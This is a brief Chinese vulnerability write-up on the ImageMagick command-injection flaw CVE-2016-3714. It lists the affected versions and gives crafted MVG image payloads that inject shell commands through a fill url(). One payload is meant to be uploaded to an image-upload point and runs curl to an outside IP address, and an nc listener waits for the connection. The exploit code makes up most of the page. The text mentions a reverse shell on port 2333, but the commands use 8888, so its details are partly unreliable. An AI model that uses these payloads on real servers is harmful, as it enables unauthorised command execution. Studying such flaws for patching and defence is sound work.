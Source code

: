 # （CVE-2016-3714）ImageMagick 命令执行漏洞

> 原文：[http://book.iwonder.run/0day/ImageMagick/CVE-2016-3714.html](http://book.iwonder.run/0day/ImageMagick/CVE-2016-3714.html)

## 一、漏洞简介

/etc/ImageMagick/delegates.xml 将%s，%l 加入到 command 里造成了命令执行

## 二、漏洞影响

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至 6.9.3-9 released 2016-04-30

## 三、复现过程

### poc

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| command")'
pop graphic-context 
```

图片上传点，抓包，附上 exp 代码：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| curl 172.16.20.108:8888")'
pop graphic-context 
```

> ip：你要反弹的 shell 地址，2333 端口号，服务器监听反弹 shell。

```
nc -lvp ``8888 
```

![image](img/a99694ed5c1faf7b5cab74c873189f02.png)

